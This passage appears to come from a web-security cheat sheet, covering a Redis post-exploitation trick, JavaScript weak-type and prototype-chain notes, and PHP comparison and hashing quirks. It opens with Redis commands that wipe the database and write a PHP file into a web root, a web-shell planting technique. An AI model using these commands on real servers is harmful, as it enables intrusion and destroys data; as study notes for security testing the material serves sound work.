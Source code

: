   ```
  FLUSHALL
  SET payload "<?php phpinfo() ?>"
  CONFIG SET DIR /var/www/html/
  CONFIG SET DBFILENAME shell.php
  SAVE
  ```

- [RCE](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

### JavaScript
- Reference
  - [wtfjs](https://github.com/denysdovhan/wtfjs)
  - [JavaScript Truth Table](https://thomas-yang.me/projects/oh-my-dear-js/)
  - [你懂 JavaScript 嗎？#8 強制轉型（Coercion）](https://ithelp.ithome.com.tw/articles/10201512)
- Weak Type (comparison `==`)
  - [] == 0
  - [] == "0"
  - ['a', ['b', 'c']] == "a,b,c"
  - "b" + "a" + + "a" + "a" == baNaNa
- Prototype Chain
  ```
  __proto__ 
  ─────────>
                                      
         ┌─────────────────────────────┐ ┌───────────────────────────────────────────────────┐
         │                             │ │                                                   │
         │                             │ │                                                   │
         │                             │ │                   ┌──────┐                        │
         │                             │ │                   │ null │                        │
         │                             │ │                   └──────┘                        │
         │                             │ │                      ↑                            │
         │                             ↓ ↓                      │                            │
  ┌────────────┐    prototype┌────────────────────┐    ┌──────────────────┐  constructor┌──────────┐
  │ Function() │─────────────│ Function.prototype │───>│ Object.prototype │─────────────│ Object() │
  └────────────┘constructor  └────────────────────┘    └──────────────────┘prototype    └──────────┘
                                        ↑                       ↑          
                                        │                       │
                                     ┌─────┐    prototype┌─────────────┐
                                     │ A() │─────────────│ A.prototype │
                                     └─────┘constructor  └─────────────┘
                                                                ↑          
                                                                │
                                                           ┌─────────┐
                                                           │ new A() │
                                                           └─────────┘
  ```

### PHP
- Reference
  - [php.net](https://www.php.net/)
- Weak Type (comparison `==`)
  - [PHP Truth Table](https://www.php.net/manual/en/types.comparisons.php)
  - [String to Number Comparison](https://www.php.net/manual/en/migration80.incompatible.php#migration80.incompatible.core.string-number-comparision)
  - `0eXXXX == 0eYYYY`
  - PHP Array
    - $arr[idx] <-> $arr{idx}
    - strcmp([], []) -> NULL
    - md5([]) -> NULL
    - sha1([ ]) -> NULL